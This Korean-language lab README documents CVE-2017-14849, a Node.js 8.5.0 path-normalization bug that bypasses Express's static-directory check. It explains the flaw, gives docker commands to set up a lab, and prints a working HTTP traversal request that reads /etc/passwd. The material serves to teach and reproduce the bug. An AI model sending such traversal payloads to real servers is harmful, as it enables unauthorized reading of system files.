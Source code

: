 # Node.js 디렉터리 탐색 취약점（CVE-2017-14849）

**Contributors**

-   [강찬송(@ssongk)](https://github.com/ssongk)


## 취약점 원칙

참조 문서:

 - https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
 - https://security.tencent.com/index.php/blog/msg/121

Node.js 8.5.0에서 디렉터리에 대해 `normalize` 작업을 수행할 때 논리 오류가 발생하여 상위 계층으로 점프하는 취약점이 발견되었습니다.
(예: 경로 `../../../../../../etc/passwd`의 중간에 `foo/../`를 추가 -> `../../../foo/../../../../etc/passwd`)
`normalize`를 사용하면 `/etc/passwd`를 반환합니다.
실제 올바른 결과는 `../../../../../../etc/passwd`여야 합니다.

Express와 같은 웹 프레임워크는 일반적으로 `normalize` 기능에 의존하는 정적 파일 서버 기능을 제공합니다.
예를 들어, Express는 경로가 정적 디렉터리의 범위를 초과하는지 여부를 확인할 때 `normalize` 함수를 사용하는데, 위 버그로 인해 `normalize` 함수가 잘못된 결과를 반환하고 검사를 우회하여 임의 파일 읽기 취약점이 발생합니다.

물론 `normalize`의 BUG는 표현보다 더 많은 영향을 미칠 수 있으므로 더 깊이 조사할 필요가 있습니다.
그러나 이 BUG는 node 8.5.0에 도입되고 node 8.6에서 수정되었기 때문에 영향의 범위가 제한됩니다.

## 취약점 재현

컴파일 및 실행 환경:

```
docker compose build
docker compose up -d
```

`http://your-ip:3000/`을 방문하여 `/static/main.js` 파일을 참조하는 웹 페이지를 확인하세요.
이는 정적 파일 서버가 존재함을 나타냅니다.

다음과 같은 패킷을 보내면 passwd 파일을 읽을 수 있습니다.
(파일의 경로를 안다면 다른 파일도 읽을 수 있음)

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![](result.png)


## 정리

CVE-2017-14849는 node 8.5.0에서 발견된 취약점입니다.
Express 서버에서 사용자가 경로 중간에 `foo/../` 같은 구문을 넣으면 해당 경로가 정적 디렉터리의 범위를 초과하는지 여부를 확인하기 위해 `normalize` 함수를 사용하는데 여기서 논리적 오류가 발생하여 임의의 파일을 읽을 수 있습니다.
해당 취약점은 node 8.6에서 수정되었습니다.